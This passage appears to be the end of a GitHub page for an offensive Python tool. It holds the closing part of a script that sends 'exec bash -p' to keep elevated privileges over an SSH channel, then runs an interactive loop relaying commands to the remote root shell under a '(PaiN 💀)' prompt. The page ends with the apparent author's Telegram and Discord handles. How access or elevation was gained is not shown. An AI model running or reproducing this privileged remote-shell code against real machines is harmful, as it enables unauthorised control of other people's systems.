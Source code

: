 ```python
    shell.send("exec bash -p\n")  # Keep the shell interactive
    time.sleep(1)

    while True:
        output = shell.recv(4096).decode()
        print(output, end="")  # Print output without extra newlines
        command = input("\033[92m(PaiN 💀) \033[0m")  # Green shell prompt
        shell.send(command + "\n")
        time.sleep(1)  # Allow time for response

except Exception as e:
    print(f"Error: {e}")

finally:
    sftp.close()
    client.close()
```

---

Telegram Id : `@PAINNNN_21`

Discord : `pain._.05`
